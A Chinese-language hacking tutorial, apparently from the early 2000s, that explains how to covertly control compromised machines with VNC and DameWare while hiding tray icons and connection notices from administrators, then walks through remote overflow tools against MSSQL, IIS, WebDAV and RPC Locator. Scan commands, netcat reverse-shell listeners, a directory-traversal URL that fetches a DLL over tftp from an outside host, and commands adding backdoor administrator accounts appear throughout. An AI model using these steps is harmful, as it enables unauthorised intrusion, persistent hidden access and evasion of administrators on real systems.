

呵呵，怎么样？是不是很激动，感觉不错？是不是和远程桌面差不多呀？现在操作肉鸡就像操作自己的计算机一样了，至于怎么用，你应该很清楚吧！



有些版本的 VNC 运行时前台有图标，这样很容易被发现。现在我们用的这个版本只在后台运行，相对比较安全。不过想让它更安全些，在安装时把默认的名字（winvnc）和安装路径改掉，见图 9。

在下一次连接时，你只要运行客户端程序 vncviewer.exe，输入密码就可以登录了。一般的情况下，VNC 的服务端在开机时都会自动启动的，但是有时也会出问题，这时候你就需要重复上面的步骤了。利用 Strcm 也可以关闭、卸载 VNC。但条件都是在与远程主机建立 IPC 通道的情况下！

其实 VNC 的用处还不只是这些，它也可以用来控制其他操作系统，比如 Unix/Linux 系统，甚至使用 Strcm 也可以用来远程安装其他的服务。



不知道大家对 DameWare NT Utilities 是否熟悉。它是一款和 VNC 一样的“合法”的远程控制软件，而且它比 VNC 的功能更强大，而且安装更容易。下面我就简单给大家介绍一下 DameWare NT Utilities 的用法。

> **准备工作** 安装软件、汉化软件、注册软件。这些东西应该很容易的，不需要我告诉你了吧！

安装完以后运行 DameWare Mini Remote Control，见图 1。填上主机 IP 地址、用户名（管理权限）和密码，然后按“连接”。如果你想保存主机资料，以方便下次连接，你就在“记住安全证书”前打钩。接下来软件要对远程主机进行一些检测，检测远程主机是不是已经安装了这个软件，我们慢慢等吧！如果没有安装过，一会儿它会弹出一个对话框，见图 2。



由于远程主机还没有安装服务端，它提示你是否立即安装。但此时，我们先别忙着确定，先来配置一下服务端吧！

## 远程控制

Remote-Anything 控制远程主机的时候，最令我们烦恼的是给主机运行服务端后会在状态栏里出现一个小图标，这个东西很容易被网管发现的。不过我们通过给 DameWare NT Utilities 的服务端进行设置以后，在 DameWare NT Utilities 安装的服务端就不会再出现小图标了！而且连上主机的时候，它也不再提示网管已经有人连上主机的消息了！点击安装选项。这里我们主要对连接后在远程主机的提示图标进行设置。



图 2


图 4

## 配置方法如下：

在复制配置文件 DWRCS.INI 前打钩，这个你千万别忘了，要不然配置的参数都无效。然后按“编辑”，对服务端参数进行设置，见图 3。


图 3

这里配置服务端的选项有很多，不过我这里就介绍配置连接提示的选项。首先我们去掉“启用系统栏图标”选择。这样给主机安装了软件，不会在右下角出现小图标了，见图 4。

然后我们再去掉“连接时通知”的选项。这样我们连上主机的时候，网管就不会发现了，见图 5。


图 5

这就差不多了，如果你有其他要求可以自己设置，一般这样设置就可以了。确定确定再确定以后就开始安装了！见图 6。


图 6

1995年，Mudge发表了“How to write buffer overflows（如何编写缓冲区溢出程序）”，在文中开始讨论这种攻击程序的相关技术。自那以后，缓冲区溢出攻击就成了Unix系统中最热门的话题。直到今日，缓冲区溢出攻击已经成了当前最常见、效率最高、使用最简单的一种攻击方法。不管是针对Windows系统，还是Unix/Linux，甚至是Mac OS系统的远程（本地）缓冲区溢出攻击程序都有许多。本章节中主要以Windows 2000/XP为主，介绍一下相关的远程溢出攻击程序的使用。

## 远程溢出

## 3.1 Sql2.exe

在这一节我们来看看如何使用 Sql2.exe 溢出 MsSql 服务器并获取其系统权限。首先要使用的工具有三个：

- 1. SQLWormScanner.exe 漏洞扫描工具
- 2. Sql2.exe 漏洞溢出工具
- 3. Nc.exe 溢出后连接工具

整理出以上工具后，我们就来看看如何实现溢出吧！

使用 SQLWormScanner.exe 扫描一个 IP 范围内的主机以寻找存在漏洞的服务器，图1。


这里我扫描的是 xxx.xx0.190.1—xxx.xx1.0.1。输入 IP 范围后点击扫描。等待几分钟后出现报告，发现存在漏洞的服务器，图2。


这里存在漏洞的服务器的 IP 为 xxx.xxx.206.231。确定目标后准备用 sql2.exe 来进行溢出了。Sql2.exe 使用方法如下：

```text
Usage:
sql2 [目标 IP] [<NC 监听 IP> <NC 监听端口> <SQL 补丁版本>]

Example:
C:\>nc -l -p 53
Target is MSSQL SP 0:
C:\>sql2 192.168.0.1 192.168.7.1 53 0
Target is MSSQL SP 1 or 2:
C:\>sql2 192.168.0.1 192.168.7.1 53 1
```

按照 SQL2.EXE 的帮助信息，我们首先使用 NC.EXE 来打开一个监听端口。

```text
D:\TOOLS>NC -vv -l -p 100
listening on [any] 100 ...
```

这里我们的监听端口是 100。然后使用：

```text
sql2.exe xxx.xxx.206.231 xxx.xxx.199.139 100 0
```

对目标服务器进行溢出，并让目标服务器溢出后直接连接到我们的 100 端口，图3。


上面图中 xxx.xxx.199.139 是我自己的 IP，也是 NC 监听 IP。溢出代码发送完后稍等几秒钟，这时候 NC 监听端口有动静了，图4。


图4

大家可以看到 xxx.xxx.206.231 已经主动连接到了 100 端口，这时候的权限应该是 system 的权限。检测一下，这里使用 net share 命令来查看一下远程共享的目录情况。这个命令没有相应的权限会提示权限不够，图5。

图5

看到了吗？默认共享全都在呢！这也说明我们对系统有绝对的控制。

## 3.2 thcsql.exe

关于微软的 MS-SQL 数据库的远程溢出攻击程序，在网上公布的并不多，或许是因为相比较而言，MS-SQL 的远程溢出漏洞相对很少的缘故吧。sql2.exe 就是其中效果很好的一个。不过，下边我要介绍的却是另一个 MS-SQL 的远程溢出程序 thcsql.exe。


```text
D:\hacker\win2000>thcsql

THCsql v0.1 - wind0wz 远程溢出 for MSSQL-Server's < SP3 win2000 < sp3
程序代码：Johnny Cyberpunk (cyberpunk@thehackerschoice.com)
漏洞发现：David Litchfield
EXE 文件编译及汉化：Sagi.Yang (sagi@hackerxfiles.net)

例如：thcsql <Host>
nc -vv IP 31337
```

程序的使用还是很简单的。至于如何寻找 MS-SQL 服务器，我们只需要使用一些端口扫描程序扫描 1433 端口就可以了。

图1

这个程序也是 2003 年的早些时候被公布的了，让我们先来看一下程序的使用，图1。

```text
D:\hacker\win2000>thcsql 61.*.*.28

THCsql v0.1 - wind0wz 远程溢出 for
MSSQL-Servers < SP3

程序代码：Johnny Cyberpunk
(jcyberpunk@thehackerschoice.com)

漏洞发现：David Litchfield

EXE 文件编译及汉化：Sagi Yang
(sagi@hackerxfiles.net)
```

```text
/add
net user sagi 135790 /add & net localgroup
administrators sagi /add

命令成功完成。

命令成功完成。

C:\WINNT\system32>
```

发送溢出代码……等待一会儿……
好了……现在可以使用 NC 连接对方的 31337 端口了！


溢出代码已经发送过去了，见图2。按照程序的提示，我们使用 nc 来连接对方的溢出端口 31337。

```text
D:\hacker\win2000>nc -vv 61.*.*.28 31337

61.*.*.28: inverse host lookup failed:
h_errno 11004: NO_DATA
(UNKNOWN) [61.*.*.28] 31337 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```


命令执行成功了，见图4，这说明我们得到的是一个具有 Administrator 权限的 cmd shell。

好了，已经溢出成功了，得到了一个 cmd shell，见图3，最后让我们来看一下我们得到的权限有多大。

```text
C:\WINNT\system32>net user sagi
135790 /add & net localgroup administrators
sagi
```

## 3.3 ispc

ispc 利用了 IIS 5.0 + SP0（SP1、SP2）的权限检查漏洞来获得系统 SYSTEM 权限，只要能把 idq.dll 上传至 IIS 的一个可执行目录中，就可以获得 SYSTEM 权限。因为 Windows 2000 的 SP0、SP1 及 SP2 都存在 UNICODE 漏洞，所以，在网上流行的用法就是结合 UNICODE 漏洞来进行上传，从而获得对远程主机的系统权限。

在本地运行 tftp32.exe 建立一个 tftp 服务器，见图2。

扫描漏洞主机，确认主机有 UNICODE 漏洞，利用漏洞代码连接主机，见图1。

调用 TFTP.EXE 上传 IDQ.DLL 到对方的 SCRIPTS 目录下，使用命令：`http://xx.xx.xx.xx/scripts/..%255c%255c../winnt/system32/cmd.exe?/c+dir tftp -i flyuo.3322.org get idq.dll`，见图3。


上传完毕以后就可以使用 ispc.exe 来连接目标主机了。使用命令：`ispc xx.xx.xx.xx/scripts/idq.dll`，见图4。


这样就得到了一个 system 权限的 shell 了。

> 注意：这个命令需要连续使用 3 次回车。

## 3.4 Iis5hack 及 idahack

Iis5hack.exe 是针对 Printer 漏洞的溢出工具。Printer 漏洞是一个于 2001 年就公布出来的老漏洞了，现在有这个漏洞的主机已经很难再找到了。不过在 Printer 漏洞流行的年代，Iis5hack 也曾经像 webdavx3 那么辉煌。为了纪念 Iis5hack，我这里简单地介绍一下它的用法。虽然这个漏洞存在的可能性比较小，不过也说不准哪一天会用到。

Iis5hack 是一个在命令行下运行的工具，这个似乎符合溢出工具传统的风格，命令格式是：

```text
iis5hack <Host> <HostPort> <HostType> <ShellPort>
```

**HostType 对应列表如下：**

| HostType | 值 |
|---|---|
| chinese edition | 0 |
| chinese edition, sp1 | 1 |
| english edition | 2 |
| english edition, sp1 | 3 |
| japanese edition | 4 |
| japanese edition, sp1 | 5 |
| korea edition | 6 |
| korea edition, sp1 | 7 |
| mexico edition | 8 |
| mexico edition, sp1 | 9 |

由此我们可以知道，这个工具只对 SP1 有效。呵呵，的确比较古老了！看看我入侵时的截图吧，图1。

溢出以后可以得到 system 权限，这说明 Printer 漏洞危害的确很大，难怪大家对 iis5hack 念念不忘。像这样的漏洞还有很多，比如 idq/ida 漏洞。由于 idq/ida 漏洞差不多，这里我就介绍溢出 ida 的工具 idahack。


Idahack 的使用方法和 iis5hack 没有什么区别，得到权限也一样。不过它针对的主机要多一点。我们来看它的 HostType 列表：

| HostType | 值 |
|---|---|
| chinese win2k | 1 |
| chinese win2k, sp1 | 2 |
| chinese win2k, sp2 | 3 |
| english win2k | 4 |
| english win2k, sp1 | 5 |
| english win2k, sp2 | 6 |
| japanese win2k | 7 |
| japanese win2k, sp1 | 8 |
| japanese win2k, sp2 | 9 |
| korea win2k | 10 |
| korea win2k, sp1 | 11 |
| korea win2k, sp2 | 12 |
| chinese NT, sp5 | 13 |
| chinese NT, sp6 | 14 |

由此可见，idahack 对 SP2 都有效，漏洞范围也大了不少。


图2

命令格式是 **idahack <Host> <HostPort> <HostType> <ShellPort>**，图2是我入侵成功的截图。

你不仔细看看还不能发现它和图1的区别。你一定会问为什么它们会这么像呢？原因是漏洞性质差不多，而且最重要的是这两个软件都是 sunx 写的，所以它们的风格当然一样了！用这些工具的时候别忘了谢谢 sunx 哦！

## 3.5 Snake IIS

NULL.ida 和 NULL.idq 远程溢出漏洞被发现在 2001 年，但是直至 2003 年初，仍然是入侵者入侵微软 IIS 服务器所普遍使用的一种攻击手法。

许多朋友都使用过 x-scan 2.3 吧，我想他们在扫描时，也曾经扫到过类似图1的情况。


图1

图1中“可能存在‘IIS Index Server ISAPI 扩展远程溢出’漏洞（NULL.ida）”及“可能存在‘IIS Index Server ISAPI 扩展远程溢出’漏洞（NULL.idq）”指的就是这个漏洞。

针对该漏洞，国内普遍使用的都是 Snake IIS 溢出工具，我也是使用的这个。这个溢出工具的溢出成功率还是很高的。下边就让我们来看一看这个溢出工具的使用。

启动 Snake IIS 溢出工具，在“被攻击地址：”一栏中输入要进行溢出的 IP 地址：211.*.*.24；“操作系统类型Ⅰ：”中选择其对应的版本类型。因为我测试的这台为中文 Win2000，所以在这儿用鼠标点选“IIS5中文 Win2k Sp0”，显示反蓝就表示选中了。在“溢出选项：”中选中“溢出后，在一个端口监听(Q)”，监听端口使用默认的 813 就可以，当然也可以自己定义。在“要绑定的命令：”中缺省为“cmd.exe /c dir c:\”，在这儿改一下，改为“cmd.exe”。点击“IDQ溢出”按钮就会出现一个小对话框，提示我们说“发送shellcode到211.*.*.24:80 ok”，见图2。


图2

接下来，是否溢出成功，就要看我们是否可以连接上了。

```text
D:\hacker>nc -vv 211.*.*.24 813
211.*.*.24: inverse host lookup failed: h_errno 11004: NO_DATA
<UNKNOWN> [211.*.*.24] 813 (?) open
Microsoft Windows 2000 [Version 5.00.2195]
(C) 版权所有 1985-1999 Microsoft Corp.

C:\WINNT\system32>
```


图3

溢出成功了，见图3。如果我们没有得到对方的 cmd shell 的话，可以在“操作系统类型：”中选择“IIS5中文 Win2k Sp1”或“IIS5中文 Win2k Sp2”重新进行溢出。

让我们来看一下成功溢出后我们的权限有多大。

```text
C:\WINNT\system32>net user sagis 135790 /add

net user sagis 135790 /add
命令成功完成。

C:\WINNT\system32>net localgroup administrators sagis /add

net localgroup administrators sagis /add
命令成功完成。
```


图4

见图4，我们成功地添加了一个拥有 Administrator 权限的后门帐号。这样溢出后我们就已经拥有了 Administrator 权限，想做什么，现在就随你了。

Snake IIS 溢出工具还提供了基于命令行方式下的工具 idq.exe，接下来就让我们再看一下在命令行方式下是如何使用 idq.exe 的。

```text
D:\hacker\idqidq>idq.exe
运行参数：操作系统类型 目的地址 web端口 1 溢出监听端口（输入命令1）
或者：操作系统类型 目的地址 web端口 2 溢出连接IP 溢出连接端口（输入命令1）

其中：如果输入命令参数没有输入，那么默认为：“cmd.exe /c + dir”
如果为1，那么，将输入新的命令。
支持的操作系统，类型：……
```


见图6，“0”表示对方的操作系统类型为中文 Win2000 SP0，“80”为对方的 WEB 端口，“1”表示使用第一种溢出格式，“813”为溢出端口，后边的“cmd.exe”为执行的命令。系统会提示“请输入绑定的命令：”，在后边输入 cmd.exe 就可以了。最后就是使用 nc.exe 进行连接。


见图5，使用也很简单，当然比起那个图形界面下的工具要复杂一些。通常在两种使用格式中，我们使用第一种就可以了，但是如果对方安装了防火墙的话，我还是建议使用第二种反向连接的方法。


> 图5
>
> 图6
>
> 图7

## 3.6 Aspcode.exe

成功地得到了对方的 cmd shell，见图7，使用也不难吧。这个 idq.exe 使用起来虽然没有那个基于图形界面的程序简单、易上手，但 idq.exe 也有自己的优势，就是可以很方便地上传到我们的攻击跳板上，然后对目标进行溢出。而如果要想在攻击跳板上使用那个基于图形界面的溢出程序的话，就不得不开启跳板的终端服务或使用别的远程控制软件，这显然要比直接使用 idq.exe 要麻烦得多。

Aspcode 是一款针对 asp 文件溢出的工具。它当初出现在 NT4.0，溢出后得到权限为 system 的 shell；在 Win2k 下溢出后得到权限为 guest 的 shell。这个工具不能溢出 NT4.0（SP6）和 Win2k（SP3）及其以后的版本。

- **程序执行的语法是：** `aspcode 目标ip asp文件名 web端口 系统版本`
- **目标ip：** 是必需输入的，如不输入程序会询问你直到输入一个 IP。
- **asp文件：** 如果是 NT4.0 的目标，这里可以使用默认的 `default.asp`。如果目标是 Win2000，你可以尝试使用 `iisstart.asp`，或使用从页面中查看存在的 asp 文件。
- **Web端口：** 对方 IIS 的 Web 服务所开启的端口，不输入的时候默认为 80。
- **系统版本：** 一般对方系统未知可以不输入，让其使用默认值。

我们先利用扫描器扫描 IIS ASP 溢出漏洞（详见扫描器篇），在扫描出有该漏洞的机器后，在 cmd 模式下使用命令：`aspcode 192.168.0.1 iisstart.asp 80`，见图1。

```text
send packet 71827 bytes..
recv:
C:\INETPUB\WWWROOT\IISSTART.ASP
ok!recv 8 bytes
```

这时候连续回车 2 下，这时系统回显：

```text
Microsoft Windows 2000 [Version 5.00.2195]
(c) 版权所有 1985-2000 Microsoft Corp.

C:\WINNT\system32>
```

到这里溢出成功，见图2。


> 注意：这个时候得到的权限是 guest 权限，诸如添加帐号、启动系统服务之类的命令是无法执行的。如果在溢出命令发送后返回的是乱码，则表示该目标不存在此漏洞。

## 3.7 Webdavx3

在这个 WebDAV 流行的年代，我们当然不会忘记介绍 webdavx3。这是一款针对 WebDAV 漏洞的溢出工具。关于这个漏洞的工具有很多，不过有的不怎么好用，有的有时间限制。我这里就介绍雪莲蓬编译的汉化版的 WebDAV 溢出程序。

Webdavx3 使用很简单，命令格式是：

```bash
webdavx3 IP
```

只要看看我操作时的截图你就应该会了，见图 1。

不过，有的打了补丁的主机也安装了 WebDAV 组件。一般来说，能被溢出的主机，发送的前几次就可以 OK。如果到第 10 次还没有溢出，再等下去就没有意义了，换一台试试吧。图 2 是我没有溢出的截图。


当然这款工具需要 WebDAVScan 配合使用，这样可以很快找到使用了 WebDAV 组件的主机。

有些 WebDAV 溢出工具本身有问题，它除了能溢出，还能让 IIS 拒绝服务，甚至让 IIS 崩溃。呵呵，如果为了攻击主机，用哪种工具都一样了。总的来说，用 webdavx3 找肉鸡比较不错。不需要用扫描工具，浪费大量的网络资源扫肉鸡了。可以说这是“绿色环保”的方法！

## 3.8 webdav.exe

关于 WebDAV 漏洞的远程溢出攻击，目前国内使用的远程溢出工具大多是基于 ISNO 的源代码的。下边就让我们来看一下另一款同样用于远程溢出 WebDAV 漏洞的程序 webdav.exe 的详细使用。

```bash
G:\hacker\webdavex>webdav.exe

IIS5.0 HTTPEXT.DLL OVERFLOW
```

使用：

```text
xxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
usage: webdav.exe <server> [webport] [offset]

please enter the web server:
```

见图 1，程序中给出了详细的使用说明，webport 为目标主机的 WWW 端口，通常都是 80 端口，offset 为测试溢出的偏移量，0、1、2……


图 1

下面让我们具体地来看一下 webdav.exe 的使用。

```bash
G:\hacker\webdavex>webdav 61.*.*.21 80 0

IIS5.0 HTTPEXT.DLL OVERFLOW
xxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
usage: webdav <server> [webport] [offset]

nuke ip: 61.*.*.21 port 80
offset: 0

shellcode long 0xfb

packet long: 0x10046
```

```text
send packet 65733 bytes..
recv:
c:\inetpub\wwwroot\NNNNNNNNNNNNNN
ok!
```

如果屏幕上在“recv:”后显示出“c:\inetpub\wwwroot\NNNNNNNNNNNNNN”及“ok!”这样的信息，那么，就说明我们的溢出已经成功了，见图 2。


图 2

如果在“recv:”后显示出来的是类似如下的信息：

```text
recv:

HTTP/1.1 404 Resource Not Found
Server: Microsoft-IIS/5.0
Date: Fri, 23 May 2003 15:13:25 GMT
```

和 aspcode.exe 溢出不成功时显示出来的信息差不多的话，或者是连接长时间地没有反应，这就说明溢出没有成功，此时可以通过“Ctrl+C”中断，更换 offset 再进行测试。通常对于中文 Windows 2000，offset 为 0 就可以成功，当然我在测试时也有到 8、9 才成功的，如果 offset 测试到 15 以后还没有成功的话，估计溢出的希望就很小了，只有换一个 IP 再进行测试了。

溢出成功后，回车一下，就会出现熟悉的“C:\WINNT\system32>”了，我用 net user 查看了一下对方系统中存在的账号，见图 3。


最后让我们看一下我们的权限有多大，添加一个账号看看。

webdav.exe 溢出成功后不必再去连接目标主机的溢出端口，而是直接得到 SHELL。我们也可以这么认为，就是程序溢出成功后，会先停掉对方的 WWW 服务，然后在 WWW 服务使用的 80 端口上绑定一个 cmd shell。我想对于许多使用过 ISNO 的溢出程序的朋友来说都曾经碰到过这个问题，就是使用 ISNO 的溢出程序已经溢出成功了，对方的 7788 端口也已经打开了，但是当我们连接对方的 7788 端口时，却无法连接上，因为对方的防火墙已经拦截了我们的连接。但是如果你使用 webdav.exe 来溢出的话，就不会出现这种情况了。换句话说，这个溢出程序利用对方的 80 端口来躲避对方的防火墙。


见图 4，这说明我们已经具有了 Administrator 的权限。和 ISNO 的那个溢出程序一样，webdav.exe 只针对简体中文 Win2000/XP 有效。但是与 ISNO 的那个溢出程序不同的是，webdav.exe 的溢出成功率还是相当高的，唯一的缺点，就是得到的 SHELL 有时会不稳定，会断掉我们的连接，不能不说是一种遗憾了。

## 3.9 rpc_locator.exe 及 rpc.exe

Windows RPC LOCATOR 远程溢出漏洞是 2003 年继 WebDAV 漏洞后被公布的又一个非常严重的安全漏洞，值得庆幸的是 Windows 的 RPC LOCATOR 服务系统默认并不安装，所以该漏洞只对提供 RPC LOCATOR 服务的域服务器有效，也正因此，其影响力度也远比 WebDAV 漏洞要相对小得多。

下边我就详细地介绍一下针对该漏洞的工具 rpc_locator.exe 及 rpc.exe 的使用。

rpc_locator.exe 是一个专门用来扫描 RPC LOCATOR 漏洞的程序，当然，在流光 4.71 中也集成了该扫描功能，但是在 x-scan 2.3、x-way 2.5 中却不具备对该漏洞的探测功能。唯一遗憾的是，rpc_locator.exe 一次只能扫描 254 台主机。

```bash
G:\hacker\winrpcex>rpc_locator.exe

Microsoft Locator Scanner

Scans a range of IP addresses looking for Microsoft computers
running the Locator Service

C:\>rpc_locator IPAddress-Start IPAddress-End

where IPAddress-Start is the IP address to start from
and IPAddress-End is the last address in the range.
Only works over a class C network.

e.g.

C:\>rpc_locator 10.1.1.1 10.1.1.254

cpyy
cpyy@sina.com
2003/4/8
```

```bash
G:\hacker\winrpcex>rpc_locator 144.*.*.1 144.*.*.254
```


图 2

扫描结果见图 2 所示，找到许多，当然不是国内的。下边就让我们来看一下溢出程序 rpc.exe 的使用。


图 1

见图 1，对于该扫描程序的使用讲得非常详细，虽然是英文，我想许多人都看得懂，唯一遗憾的是：

```bash
G:\hacker\winrpcex\rpc

XLocator -- MS RPC LOCATOR Service Exploit for win2k en_cn_sp0-3
Author: cooleyas@21cn.com 2003-04-06
Based on Marcin Wolak's rpcexp.c

usage:
1. Set registry values in Your workstation as below:
   HKLM\SOFTWARE\Microsoft\Rpc\NameService\NetworkAddress = targetIP
   HKLM\SOFTWARE\Microsoft\Rpc\NameService\XServerNetworkAddress = targetIP
2. Establish null session: net use \\targetIP\ipc$ "" /u:""
3. Run Exploit: XLocator <os_type>

<os_type>
0 ==> en_cn_sp0, en_cn_sp1, en_cn_sp3
1 ==> en_cn_sp1, en_cn_sp2

if success, target will add a user "xx"
passwd is "!a1_9nH!"
```


图 3

见图 3，整个的攻击过程需要分三步走，先修改注册表，然后与攻击目标建立空连接，然后执行溢出程序。对于许多新手来讲，这确实存在着很大的难题，也足以让他们头疼的了。

让我们先来看一下要如何修改我们的注册表。

执行 regedit，打开注册表，找到“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Rpc\NameService”，在右边会出现几个键值，我们要做修改的就是其中的“NetworkAddress”以及“ServerNetworkAddress”，右击“ServerNetworkAddress”，出现如图 4 的一个选择菜单。


图 4

选择“修改(M)”，然后会出现如图 5 的画面。


图 5

将“数值数据(V)：”一栏中直接改为对方的 IP 就可以了，同样“NetworkAddress”一项也要做同样的修改，方法同上，确定后就可以了。

当我们使用 rpc_locator.exe 扫描时，我们的系统已经与提供 RPC LOCATOR 服务的主机建立了 IPC$ 连接。从溢出的成功率考虑，我建议将这些连接先断开掉，见图 6。


图 6

```bash
G:\hacker\winrpcex>net use * /delete
```

接下来我们就是与要溢出的那台服务器建立一个空连接，见图 7。


图 7

```bash
G:\hacker\winrpcex>net use \\144.*.*.48\ipc$ "" /user:""
```

进行溢出，通常是使用参数“0”，因为现在打 SP3 的比较多，如果“0”不能成功的话，可以再换成“1”测试，见图 8。

```bash
G:\hacker\winrpcex>rpc 0
5RpcNsBindingLookupBegin returned 0x6e2
Done.
```


图 8

